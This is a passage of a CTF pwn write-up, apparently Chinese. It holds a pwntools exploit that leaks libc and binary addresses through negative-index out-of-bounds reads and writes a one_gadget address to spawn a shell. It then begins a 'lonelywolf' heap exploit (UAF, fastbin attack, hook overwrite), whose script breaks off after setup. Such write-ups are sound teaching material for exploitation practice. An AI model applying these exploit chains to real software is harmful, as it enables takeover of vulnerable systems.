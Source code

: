```python
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
    sla("Your choice:",str(num))

def read(idx):
    cho(1)
    sla("Index:",str(idx))

def write(idx):
    cho(2)
    sla("Index:",str(idx))


z('b*$rebase(0xC06)')
write(256)
write(256)
cho(1)
sa("Index:",'\xe7\xff\xff\xff\xff\xff\xff\xff')
ru("Result: ")
libcbase = int(ru("\n")[0:-1],16)-libc.sym['puts']
print(hex(libcbase))

cho(1)
sa("Index:",'\xf5\xff\xff\xff\xff\xff\xff\xff')
ru("Result: ")
elfbase = int(ru("\n")[0:-1],16)-0x202008
print(hex(elfbase))

one = [0x10a41c,0x4f432,0x4f3d5,0xe5617,0xe561e,0xe5622,0x10a428]
cho(2)
off = str((libcbase+0x61bf60-elfbase-0x202060)/8)[0:-2]
print(off)
sla("Index:",off)
sd(p64(libcbase+one[6]))
cho(3)

ia()
```



### lonelywolf

只能保留一个堆块，uaf泄露出tcache中作为key的堆地址，fastbin attack将堆块分配到某个堆块的size上，将其修改为unsorted_bin大小，uaf泄露堆地址，之后就是常规打hook了

```python
#!/usr/bin/python

from pwn import *
import sys
#from LibcSearcher import LibcSearcher
context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='lonelywolf'
libc_name='libc.so.6'
#libc_name='libc-2.31.so'

libc=ELF("./"+libc_name)
```